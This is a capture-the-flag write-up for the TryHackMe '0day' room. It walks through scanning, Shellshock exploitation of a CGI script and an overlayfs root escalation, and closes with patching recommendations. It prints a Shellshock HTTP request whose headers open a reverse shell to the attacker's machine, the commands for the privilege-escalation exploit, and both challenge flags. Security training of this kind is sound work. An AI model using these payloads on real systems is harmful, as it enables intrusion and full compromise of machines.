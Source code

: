 # TryHackMe: 0day

## Challenge Description

Exploit Ubuntu, like a Turtle in a Hurricane

Root my secure Website, take a step into the history of hacking.

## Planning and Scoping

Our local machine (the Host) has the IP address: `10.10.80.192`. The remote machine we are targeting is at IP address: `10.10.246.157`.

## Information Gathering and Reconnaissance

We began our investigation by using `nmap` to perform a network scan, identifying open ports and the services running on the target:

```bash
nmap -sC -sV 10.10.246.157
```

Results showed the following open ports and services:

- 22/tcp: OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
- 80/tcp: Apache httpd 2.4.7

Next we can use nikto, a vulnerability scanner, to see possible vulnerabilities

```bash
nikto -h 10.10.246.157
```

The scan detected the following potential vulnerability:

- OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability.

## Threat Modeling

The potential risks and vulnerabilities in the web application's architecture were determined at this stage. The primary threat identified was the Shellshock vulnerability, a serious flaw that can allow an attacker to execute commands remotely, posing a significant risk to the system's security.

## Vulnerability Assessment

Based on the information gathered during the reconnaissance phase, we identified the Shellshock vulnerability in the web application, specifically in the `/cgi-bin/test.cgi` script. This vulnerability allows an attacker to remotely execute arbitrary commands via specific environment variables.

## Exploitation

We exploited the Shellshock vulnerability using a script from Exploit-DB. The script initiates a reverse shell that connects back to our host machine. This connection was facilitated by specially crafted HTTP headers `Referer` and `Cookie` that took advantage of the Shellshock vulnerability. The exploitation was successful and provided us with a shell on the target machine as the `www-data` user, a step toward gaining full control over the target system.

Here is the exploitation script we used, available on Exploit-DB: https://www.exploit-db.com/exploits/34900

```bash
python2.7 exploit.py payload=reverse rhost=10.10.246.157 lhost=10.10.80.192 lport=4444
```

The exploitation resulted in the establishment of a shell as the `www-data` user on the target system. The following HTTP GET request was used:

```http
GET /cgi-bin/test.cgi HTTP/1.1
Host: 10.10.246.157
Accept-Encoding: identity
Referer: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.80.192/4444 0>&1 &
Cookie: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/10.10.80.192/4444 0>&1 &
```


This allowed us to retrieve the first flag:


```bash
cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```


For the second flag, we exploited a Local Privilege Escalation vulnerability named 'overlayfs': https://www.exploit-db.com/exploits/37292

```bash
$ export PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
$ gcc ofs.c -o ofs
$ ./ofs
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```


## Recommendations

1. Update the system software: The server is running outdated versions of software, including OpenSSH and Apache httpd, which may contain vulnerabilities. Regularly updating these services to their latest stable versions can help to mitigate these vulnerabilities.
2. Patch the Shellshock vulnerability: It is recommended to patch this vulnerability immediately. Patches for this bug have been available since it was discovered. A system update should resolve this issue.
3. Implement Input validation: Consider implementing input validation in any scripts used in the web application to prevent the execution of arbitrary commands.
4. Apply Principle of Least Privilege (PoLP): Services should run with the least amount of privilege necessary to perform their tasks. In this case, the user `www-data` has more permissions than are necessary for running the web application. Reducing these privileges can help limit the potential damage caused by a successful exploit.
